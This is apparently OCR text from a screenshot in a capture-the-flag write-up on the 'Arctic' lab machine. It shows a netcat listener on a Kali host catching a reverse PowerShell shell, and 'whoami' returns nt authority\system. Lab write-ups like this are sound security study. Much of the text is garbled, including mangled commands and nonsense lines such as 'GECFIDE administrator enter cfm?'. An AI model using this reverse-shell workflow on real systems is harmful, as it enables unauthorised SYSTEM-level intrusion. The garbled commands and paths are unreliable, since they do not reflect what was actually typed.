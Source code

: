 ![](Maszyny/Windows/Arctic/Pasted%20image%2020210812033931.png)

..
(kali kali)-[-]
rlwrap nc - vnp 9010
listening on [any] 9010
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.11] 50881
Windows PowerShell running as user ARCTIC$ on ARCTIC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
- Raw Actions
whoami
nt authority\system
GECFIDE administrator enter cfm?
cd ../..
RU
cd Users
fusion war WEB INF Fusionib pas
HTTP
dir
Het e
